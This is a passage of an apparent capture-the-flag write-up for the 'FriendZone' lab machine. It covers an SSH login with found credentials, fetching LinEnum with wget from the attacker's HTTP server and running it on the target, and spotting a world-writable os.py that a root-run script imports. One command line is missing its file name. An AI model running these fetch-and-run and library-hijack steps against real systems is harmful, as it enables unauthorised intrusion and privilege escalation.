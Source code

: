 ![image](https://user-images.githubusercontent.com/10210108/81485023-3a1beb00-9218-11ea-9125-962681dad921.png)

I attempted to log in with these credentials via ssh and was successful.

![image](https://user-images.githubusercontent.com/10210108/81485037-5a4baa00-9218-11ea-8d91-094c76f7f865.png)

I did some additional enumeration with a utility called LinEnum.

> [LinEnum](https://github.com/rebootuser/LinEnum) automates linux enumeration by checking system information, processes, suid/guid binaries, folder/file permissions, and many other things.

I copied LinEnum to my working directory and started a python http server
```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server 80
```

On the target I switched to /dev/shm and used wget to copy le.sh to the local file system. I then made it executable and started a scan with the -t parameter (for thorough).

```
cd /dev/shm
wget http://10.10.14.22/le.sh
chmod +x
./le.sh -t
```
I came across a couple interesting things. The first was a python script that was being run by root

![image](https://user-images.githubusercontent.com/10210108/81485198-45bbe180-9219-11ea-8bea-5a108c5ddd43.png)

And the second was a world-writable file in the /usr/lib/python2.7 directory called os.py.

![image](https://user-images.githubusercontent.com/10210108/81485214-6d12ae80-9219-11ea-9459-97539fa51f14.png)

Being familiar with python I recognized this as a [module](https://docs.python.org/3/library/os.html) which allows interaction with the operating system. Taking a look at /opt/server_admin/reporter.py shows that it imports os.py.

```
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

```
